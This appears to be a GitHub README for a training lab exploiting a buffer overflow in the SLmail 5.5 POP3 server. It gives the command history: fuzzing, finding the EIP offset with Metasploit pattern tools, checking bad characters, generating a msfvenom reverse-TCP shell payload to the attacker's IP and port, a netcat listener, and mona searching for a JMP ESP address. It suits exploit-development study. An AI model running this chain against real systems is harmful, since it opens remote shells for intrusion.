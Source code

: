 # Buffer overflow on POP3 Mail Server

## Requirements used

- [SLmail v5.5.0.4433 (Vulnerable app)](https://mega.nz/file/HphHnSAA#z9b-tQmLFp52w52SdVV6noEtsFJLDpQ5QtNjzkPJr7c)
- [Immunity Debugger 1.85](https://mega.nz/file/W0oXwQhS#K-AbSqvedRNUsxc99SFpzcyrwpjiSbHurXuDofpGoDw)
- [Mona](https://github.com/corelan/mona)
- Windows XP SP3
- Kali Linux 2021

## History of commands on Bash

```bash
# Scan for open ports and detect version
nmap -v -sV 192.168.1.4

# Script for test connection do POP3 Server
python3 test-service.py

# Fuzzing when SLMail process is attached to Immunity Debugger
python3 fuzzing.py
# -- Access violation with 2700 bytes

# Create a pattern for locate EIP register dump
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700

# Run scsript with pattern
python3 crash-v1.py
# -- Access violation with EIP in 39694438

# Query offset in pattern that reach EIP
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438
# -- match at offset 2606

# Test if EIP is reached
python3 crash-v2.py
# -- Access violation with EIP in 04030201
# -- ESP register was filled with 'C' bytes

# Test if ESP can filled with 390 bytes for payload
python3 crash-v3.py

# Script to find bad char
python3 badchar.py

# Create a payload of shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=9000 -b "\x00\x0a\x0d\x20" -f python

# Run netcat and exploit in two terminals
nc -vnlp 9000
python3 exploit.py
```

## History on commands on Immunity Debugger

```bash
# Show infos about modules
!mona modules

# Find instruction JMP ESP (\xff\xe4) on module dll
!mona find -s "\xff\xe4" -m slmfc.dll
# -- One of addresses is: 5F4A358F
```

## References

- [Buffer Overflow para pentesters by Ricardo Longatto](https://www.youtube.com/watch?v=59_gjX2HxyA)
- [Bad char generator](https://github.com/cytopia/badchars)